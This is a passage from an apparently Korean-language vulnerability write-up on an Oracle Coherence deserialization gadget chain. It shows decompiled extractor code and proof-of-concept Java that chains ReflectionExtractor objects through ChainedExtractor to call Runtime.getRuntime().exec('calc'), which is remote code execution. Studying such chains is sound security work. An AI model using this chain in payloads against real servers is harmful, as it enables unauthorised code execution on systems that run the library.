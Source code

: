 ```java
            return method.invoke(oTarget, this.m_aoParam); // <- Called invoke()
        } catch (NullPointerException var4) {
            throw new RuntimeException(this.suggestExtractFailureCause(clz));
        } catch (Exception var5) {
            throw ensureRuntimeException(var5, clz.getName() + this + '(' + oTarget + ')');
        }
    }
}
```

- ChainedTransformercom.tangosol.util.extractor.ChainedExtractor#extract()

```java
@JsonbCreator
public ChainedExtractor(@JsonbProperty("extractors") ValueExtractor[] aExtractor) {
    super(aExtractor);
    this.m_nTarget = this.computeTarget();
}
public E extract(Object oTarget) {
    ValueExtractor[] aExtractor = this.getExtractors();
    int i = 0;

    for(int c = aExtractor.length; i < c && oTarget != null; ++i) {
        oTarget = aExtractor[i].extract(oTarget); // Called extract()
    }

    return oTarget;
}
```

따라서 이를 체이닝하여 아래와 같이 원하는 코드를 실행(RCE)할 수 있게 되었습니다.

- Runtime.getRuntime().exec("calc")

```java
// Runtime.class.getRuntime()
ReflectionExtractor extractor1 = new ReflectionExtractor(
    "getMethod",
    new Object[]{"getRuntime", new Class[0]}

);

// get invoke() to execute exec()
ReflectionExtractor extractor2 = new ReflectionExtractor(
    "invoke",
    new Object[]{null, new Object[0]}

);

// invoke("exec","calc")
ReflectionExtractor extractor3 = new ReflectionExtractor(
    "exec",
    new Object[]{new String[]{"calc"}}
);

ReflectionExtractor[] extractors = {
    extractor1,
    extractor2,
    extractor3,
};

ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
```
